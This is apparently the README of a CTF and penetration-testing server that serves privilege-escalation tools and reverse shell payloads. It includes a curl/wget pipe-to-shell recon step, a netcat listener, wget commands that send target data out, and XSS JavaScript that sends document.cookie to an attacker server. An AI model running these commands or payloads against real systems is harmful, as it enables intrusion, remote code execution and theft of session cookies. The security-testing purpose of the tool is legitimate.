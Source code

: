 # toolbox

Currently toolbox provides functionality similar to `python3 -m http.server`, it will:

- Serve the files within the provided directory
- Serve common CTF tools, such as:
  - [linpeas / winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git) - Enumeration scripts for priv esc
  - [static-binaries](https://github.com/andrew-d/static-binaries) - compiled tools such as ncat/socat/nmap/etc
  - [SharpCollection](https://github.com/Flangvik/SharpCollection) - Nightly builds of common C# offensive tools
- Serve payload/shell generation

## Installing

```
git clone https://github.com/AlanFoster/toolbox.git
```

Install the dependencies:
```
cd toolbox
./install.sh
```

Verify it works:

```
python3 toolbox.py --help
```

## Using Docker


Build the image:

```
docker build -t toolbox .
```

Example usage:

```
docker run -it --rm -p 8000:8000 toolbox /bin/sh -c "python toolbox.py serve -p 8000 ."
```

## Running

### Server

The server will:
- Serve the files within the provided directory
- Serve common CTF tools, such as linpeas.sh and static binaries
- Serve payload/shell generation

Usage:

```
# Remember to follow the installing steps first - i.e. with install.sh above
python3 toolbox.py serve -p 8000 .
```

You can now visit the running server at `http://localhost:8000`

![Example of the running server](./images/server.png)

By default the server supports the following files:

- [Payloads](toolbox/server/templates/modules)
- [Common tools](toolbox/config.json)

### Workflows

#### Generating payloads

The home page will show all available payloads and can be accessed on the target machine.

For example using `shell.sh`:

- `/shells/shell.sh` - running on default host/port 127.0.0.1 4444
- `/shells/shell.sh/4444` - custom port
- `/shells/shell.sh/127.0.0.1/4444` - custom host and port

On the host machine you create a listener as normal:

```
rlwrap nc -lnvp 4444
```

#### Uploading files

If you wish to upload files to your host machine from a target you can generate temporary one time upload tokens. Note that this functionality requires that the server be started with a secure `--password` flag, otherwise it is disabled from the interface:

```
python3 toolbox.py serve -p 8000 --password 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824 .
```

When the browser prompts for authentication only the password is required:

![Upload file name](./images/upload_file.png)
![Upload file token authentication](./images/upload_file_token_authentication.png)
![Upload file token](./images/upload_file_token.png)

After running the generated command on the target machine the file will be accessible on the host machine. Note that this token will be invalidated after use, and cannot be reused:

![Upload file command on target](./images/upload_file_target.png)

#### Remote target recon

The `recon.sh` script is great for use in the scenario of having initial remote code execution and you want to upgrade to a working shell. This script will log information about the remote target which you can then use to select the best reverse shell payload.

First run the `recon.sh` script on the target machine with either `curl` or `wget`:

```
curl http://localhost:8000/shells/recon.sh | sh
wget http://localhost:8000/shells/recon.sh -O- | sh
```

The server console will now log information about the remote target. In the below scenario we can see that the target is running as `root`, and has both `nc` and `python3` available - which is enough information to decide on a reverse shell payload:

![Example of the extracting data from the target](./images/recon.png)

Note that this remote logging functionality is implemented by making HTTP requests to the server with a base path of `/debug`. The `value` query string parameter will additionally be base64 decoded and highlighted in green. This means you can easily extract arbitrary information from the host machine, examples:

```bash
wget "http://localhost:8000/debug/"
wget "http://localhost:8000/debug/hello_world"
wget "http://localhost:8000/debug/tools/python/?value=$(python --version 2>&1 | base64 | tr -d \\n | sed -e 's/+/%2B/' -e 's#/#%2F#')" -O /dev/null
```

The `/debug` endpoint can be great for validating XSS payloads too. For instance within JavaScript you could use the following to track important parts of your XSS payload:

```javascript
fetch("http://server_ip:8000/debug/xss_code_started");
fetch(`http://server_ip:8000/debug/extracted_cookies?value=${encodeURI(btoa(document.cookie))}`);
```

## Contributing

### Updating requirements.txt

Updating `pipenv` currently requires a manual change to `requirements.txt`.
This file will not contain dev-dependencies and is meant for end-users.

```
pipenv lock -r > requirements.txt
```

### Adding additional tools

You can add additional third party projects by creating a new Git submodule:

```
git submodule add https://github.com/owner/project_name third_party/project_name
```

And updating the associated [configuration file](toolbox/config.json) to include the new tool.

### Running tests

You must first install the developer dependencies:

```shell
pipenv install --dev
```

Enter a Python environment:

```shell
pipenv shell
```

Running all tests:

```shell
pytest
```

To run only one set of tests add the focus marker:

```python
@pytest.mark.focus
def test_some_method():
    assert 1 == 1
```

Run with:

```shell
pytest -m focus
```

To enter an interactive debugging environment place either of the two lines into your code:

```python
breakpoint()
import pdb; pdb.set_trace()
```

Updating third party dependencies:

```
git submodule update --remote
```

## Planned

- Configure setup.py to install only the required source code + data files + licenses
- Automated github actions to ensure the latest third party libraries are downloaded
- Potentially add exploits with configurable payloads
- Shell listener support, instead of `rlwrap nc`
- Generate one time upload tokens from the command line directly, with/without the server running
- Add additional files:
  - Static pspy64
  - Static Docker client
